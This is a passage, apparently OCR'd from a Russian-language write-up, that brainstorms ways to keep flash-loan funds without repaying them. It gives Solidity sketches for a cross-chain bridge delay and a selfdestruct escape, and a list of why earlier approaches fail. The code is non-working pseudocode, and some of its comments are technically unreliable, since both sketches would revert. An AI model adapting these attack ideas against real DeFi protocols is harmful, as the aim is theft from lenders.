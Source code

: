 ```solidity
        
        // 8. Остается profit от разницы в ценах
    }
}
```

**Проблемы**:
- Современные oracle используют TWAP (time-weighted average price)
- Требуется огромный капитал для манипуляции
- Liquidation боты очень быстрые

### ПОДХОД 3: Cross-Chain Bridge Delay
```solidity
contract CrossChainTrap {
    function executeBridgeAttack() external {
        flashLoanProvider.flashLoan(USDC, 500000e6, "");
    }
    
    function onFlashLoan(uint256 amount) external {
        // 1. Быстро переводим токены через bridge
        bridge.transferToPolygon{value: msg.value}(
            USDC,
            amount,
            SAFE_ADDRESS_POLYGON
        );
        
        // 2. На Ethereum токенов больше нет
        // 3. На Polygon токены появятся через 10-30 минут
        // 4. Возврат флеш-займа невозможен
        
        // Ожидаем что транзакция упадет с ошибкой
        USDC.transfer(flashLoanProvider, amount); // Нет токенов!
    }
}
```

**Проблемы**:
- Bridge операции не мгновенные
- Транзакция упадет при попытке возврата
- Все операции откатятся включая bridge transfer

### ПОДХОД 4: Selfdestruct Escape
```solidity
contract SelfdestructTrap {
    function trapWithSelfdestruct() external {
        flashLoanProvider.flashLoan(USDC, 100000e6, "");
    }
    
    function onFlashLoan(uint256 amount) external {
        // 1. Переводим токены на EOA адрес
        USDC.transfer(SAFE_EOA_ADDRESS, amount);
        
        // 2. Уничтожаем контракт
        selfdestruct(payable(SAFE_EOA_ADDRESS));
        
        // 3. Контракта больше не существует
        // 4. Флеш-займ провайдер не может проверить возврат
    }
}
```
